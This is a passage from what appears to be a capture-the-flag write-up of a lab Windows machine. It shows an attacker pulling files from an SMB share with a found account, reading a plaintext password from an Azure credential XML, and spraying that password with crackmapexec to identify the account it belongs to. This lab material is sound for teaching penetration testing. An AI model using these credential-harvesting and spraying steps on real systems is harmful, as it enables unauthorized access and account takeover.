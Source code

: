 Now, we can browse or download the shares content. Unless the size is really huge, I usually prefer to download the full content and then browse the shares locally:
~~~
root@kali:~# smbclient //10.10.10.172/users$ -U SABatchJobs

Enter WORKGROUP\SABatchJobs's password:
Domain=[MEGABANK] OS=[] Server=[]
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jan  3 14:12:48 2020
  ..                                  D        0  Fri Jan  3 14:12:48 2020
  dgalanos                            D        0  Fri Jan  3 14:12:30 2020
  mhope                               D        0  Fri Jan  3 14:41:18 2020
  roleary                             D        0  Fri Jan  3 14:10:30 2020
  smorgan                             D        0  Fri Jan  3 14:10:24 2020

		524031 blocks of size 4096. 519955 blocks available

smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \mhope\azure.xml of size 1212 as azure.xml (9,5 KiloBytes/sec) (average 9,5 KiloBytes/sec)
smb: \> exit
~~~

Looking at the files we have downloaded, it seems that a file named "azure.xml" can be interesting:
~~~
root@kali:~# cat mhope/azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
~~~
The line **N="Password">4n0therD4y@n0th3r$** might be helpfull.



### 3.3- Identifying Another Account
We found a new password and we want to be able to login in the target. We will use `crackmapexec` to find out wich user it is the password:
~~~
root@kali:~# crackmapexec smb 10.10.10.172 -u users.txt -p 4n0therD4y@n0th3r$
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\MONTEVERDE$:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
~~~
Our happy winner is **mhope** !
